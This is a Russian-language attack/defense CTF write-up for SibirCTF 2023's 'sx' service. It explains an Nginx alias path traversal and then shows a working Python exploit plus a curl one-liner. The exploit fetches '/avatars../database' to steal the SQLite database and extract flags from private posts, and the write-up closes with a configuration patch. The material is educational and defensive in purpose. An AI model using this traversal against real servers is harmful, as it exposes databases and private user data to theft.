




# SibirCTF (19.11.2023) Attack/Defense

---

Описания взяты из официальных репозиториев SibirCTF 2023:

Service: [sx](https://github.com/SibirCTF/2023-service-sibirctf-sx/tree/main)

> Эксплойты к сервисам написаны в качестве демонстрации экплуатации уязвимостей и не подойдут для реальных CTF в стиле Attack-Defense, но они могут быть, например, отличной основной для подготовки

***Happy Hacking!***

---

## Service 1: sx

### Описание сервиса

Сервис SX (South X) - это упрощенный аналог социальной сети X (ранее twitter). Посты (tweet'ы) могут быть как публичными, так и приватными. Прочитать публичные посты, можно через GET /posts/user/{user_id} или подписавшись на интересующих пользователей и получив свой feed через GET /feed/others.

Приватные посты видны только автору и тем пользователям, на которых он подписан. Чекер создает пользователя #1, складывает флаг в приватный пост и подписывается на пользователя #2. При проверке, пользователь #2 проверяет, что ему доступен флаг в приватном посте пользователя #1.

Сам сервис выглядит примерно следующим образом:



Можно заметить, что мы имеем доступ к некоторому набору параметров api, описанных через Swagger, что позволяет нам легко строить свои собственные запросы



---

### Vuln 1: Nginx alias path traversal

Уязвимость Nginx alias path traversal позволяет получить доступ не только к прописанной директории, но и выбраться из нее на один уровень вверх. Разбираемся:

В конфиге Nginx имеется следующие записи:

```sh
events { }

http {
  server {
    listen 3080;

    location / {
      proxy_pass http://sx-backend:3080;
    }

    location /avatars {
      alias /etc/data/avatars/;
    }
  }
}
```

Можно заметить, что вторая location-запись не имеет в конце представленного пути символа `/`, что явялется ключевым моментом для **path traversal**. Суть в том, что файлы для блоков с директивой alias отдаются через прикрепление запрошенного пути, после его сопоставления с маской из директивы location и вырезания заданной в этой маске части пути. 

В нашем случае атакующий может запросить файл "/avatars../database" и этот запрос подпадёт под указанную в location маску "/avatars", после чего остающийся хвост "../database" будет прикреплён к пути из директивы alias "/avatars" и в итоге будет запрошен файл "/avatars../database". Таким образом, атакующим может получить доступ к любым файлам в каталоге "/data" (как раз-таки он содержит в себе /avatars и /database), а не только к файлам в "/avatars/". Это и есть подъем на одну директорию выше.

Часть структуры контейнера для полного понимания вышеописанной концепции:



```python
import requests
import sqlite3


# URL, URI, IP
ip = "127.0.0.1"
url = f"http://{ip}:3080"
file_path = '/avatars../database'


# Функция для скачивания БД
'''
curl -X "GET" "http://localhost:3080/avatars../database" --output -
'''
def download_db(url, file_path, ip):
	# Реализуем запрос к файлу с БД
	resp = requests.get(url + file_path)

	# Если запрос прошёл удачно, то записываем содержимое запроса в файл
	if resp.status_code == 200:
		with open(f"D:/Projects/Attack-Defense-CTFs-Write-Ups/SibirCTF-2023/exploits/sx/databases/{ip}", "wb") as db_file:
			db_file.write(resp.content)
		return f"\033[32m[+] Status: OK, file {ip} was saved!\033[0m"
	else:
		return f"\033[31m[-] Status: Error, the server returned this status code - {resp.status_code}!\033[0m"


# Функция для прасинга флагов из скачанной БД
def parse_db(ip):
	# Подключаемся к файлу с БД
	conn = sqlite3.connect(f"D:/Projects/Attack-Defense-CTFs-Write-Ups/SibirCTF-2023/exploits/sx/databases/{ip}")
	array_list = []
	try:
		# Реализуем запрос на получение данных из таблицы post, где должны храниться флаги
		results = conn.execute("SELECT * FROM post ORDER BY created_at DESC LIMIT 100")
		
		# Парсим флаги и заносим их в отдельных массив, который возвращаем в качестве результата работы функции
		for row in results.fetchall():
			if 'flag' in row[3]:
				res = row[3].split('flag: ')[-1]
				array_list.append(res)
		return f"\033[32m[+] Successfully parsed DB: {array_list}\033[0m"
	except Exception as err:
		return f"\033[31m[-] Error: {err}\033[0m"


# Main
if __name__ == "__main__":
	print(download_db(url, file_path, ip))
	print(parse_db(ip))
```

Результат работы эксплойта:



### Vuln 1 - Patch

Чтобы предотвратить **path traversal** в директиве /avatars добавить `/` в конце указанного пути:

```sh
location /avatars/ {
    alias /etc/data/avatars/;
}
```

---

